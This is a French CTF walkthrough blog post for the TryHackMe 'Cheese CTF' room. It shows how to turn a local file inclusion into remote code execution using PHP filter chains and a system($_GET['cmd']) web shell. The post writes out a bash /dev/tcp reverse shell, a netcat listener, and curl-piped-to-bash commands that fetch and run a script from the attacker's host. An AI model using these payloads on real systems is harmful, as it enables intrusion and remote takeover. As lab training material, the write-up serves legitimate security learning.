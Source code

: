 ```yaml
---
title: "TryHackMe Room Cheesectfv10"
seoTitle: "Cheesectfv10: Explore the TryHackMe Challenge"
seoDescription: "Learn how to gain shell access using reverse shells and PHP filter chains in the TryHackMe Cheese CTF Room"
datePublished: Tue May 06 2025 16:06:14 GMT+0000 (Coordinated Universal Time)
cuid: cmacpbxs0000109ikes4r0u3m
slug: tryhackme-room-cheesectfv10
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1746543221556/353365c1-1112-43c2-973d-890a1e22c750.png
tags: shell, cybersecurity-1, tryhackme, tryhackme-walkthrough, cheesectfv10

---
```


Lien de la room: [TryHackMe | Chese CTF](https://tryhackme.com/room/cheesectfv10)

# Énumération

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746549859868/eeba2534-e13f-4180-87dc-15d04525f83a.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746549887341/b953e0e6-86f7-4548-9f25-46e2840b248b.png align="center")

# Obtenir l’accès shell

## Avec le paramètre cmd

1. Créer un fichier `shell.sh` pour mon script de reverse shell. On veut donc initier la connexion depuis la machine cible.
    

Remplacer 10.10.102.158 par l’adresse IP de votre machine.

```bash
cat shell.sh 
#!/bin/bash
bash -i >& /dev/tcp/10.10.102.158/4444 0>&1
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746544143626/615e08b3-a3e5-4eaa-91cc-19bea55574bf.png align="center")

2. Démarrer le listener netcat sur la machine principale pour écouter les connexions entrantes sur le port 4444
    

```bash
nc -lvnp 4444
```

3. Démarrer un serveur HTTP qui va contenir le fichier `shell.sh`. Le fichier doit être dans le le répertoire courant où vous exécutez la commande.
    

```bash
python -m http.server 8000
```

4. Utiliser l’outil [php\_filter\_chain\_generator](https://github.com/synacktiv/php_filter_chain_generator) pour générer la chaîne de filtres PHP
    

```bash
python3 attack.py --chain '<?php system($_GET["cmd"]); ?>'
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746544061591/53a75b57-8673-40b2-855d-4f3f19525946.png align="center")

Ici on utilise `'<?php system($_GET["cmd"]); ?>'` car on veut exécuter des commandes sur le serveur cible via le paramètre `cmd` dans l’URL. On veut exploiter une vulnérabilité de type Local File Inclusion LFI afin d’exécuter des commandes arbitraires sur la cible.

5. Modifier l’URL vulnérable pour y ajouter `la chaîne de filtres PHP générée` et le paramètre `cmd`.
    

URL de base: <mark>http://10.10.162.24/secret-script.php?file=php://filter/resource=users.html</mark>

Début de la chaîne de filtre PHP : <mark>php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode</mark>

Fin de la chaîne de filtre PHP: <mark>UTF8.UTF7|convert.base64-decode/resource=php://temp</mark>

On rajoute donc le paramètre <mark>&amp;cmd=curl http://10.10.102.158:8000/shell.sh | bash</mark> à la fin de la chaîne de filtre PHP et on obtient ainsi le reverse shell.

* `curl http://10.10.102.158:8000/revshell.sh`: utilise l’outil curl pour télécharger le fichier shell.sh depuis le serveur HTTP sur le port 80
    
* `| bash`: redirige la sortie de la commande curl vers l’interpréteur de commandes bash, pour exécuter le script.
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746547286658/cabf2748-9b25-4180-8215-00b55abacc29.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746545277448/eb5f10ea-c90f-4b52-865c-e53d93920002.png align="center")

## Avec curl

On peut aussi spécifier directement la commande curl dans le payload lors de la génération de la chaîne de filtres PHP. C’est une alternative pour exécuter directement la commande curl sur le serveur, sans avoir à passer de paramètres supplémentaires à l’URL.

```bash
python3 attack.py --chain '<?= `curl 10.10.102.158:8000/shell.sh | bash` ?>'
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746548656865/269b63b9-85e4-44f9-9f18-439422d48219.png align="center")

Ce payload utilise la syntaxe courte `<?= ?>` pour exécuter la commande `curl` qui télécharge et exécute le script `shell.sh` depuis le serveur HTTP.

Une fois la chaîne de filtres générée, on peut l’intégrer dans l’URL et obtenir l’accès sur la machine en reverse shell.

# Flag user.txt

On veut lire le contenu du fichier user.txt

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746637426433/df5bbc2e-1837-4ed3-84ee-beb3dba45cb0.png align="center")

Il faut donc trouver un moyen de pouvoir lire le contenu du fichier `user.txt`. Seul le propriétaire `comte` a le droit de lire et écrire dans le fichier. Vu qu’on est connecté à `www-data`, on a aucun droit.

# Flag root.txt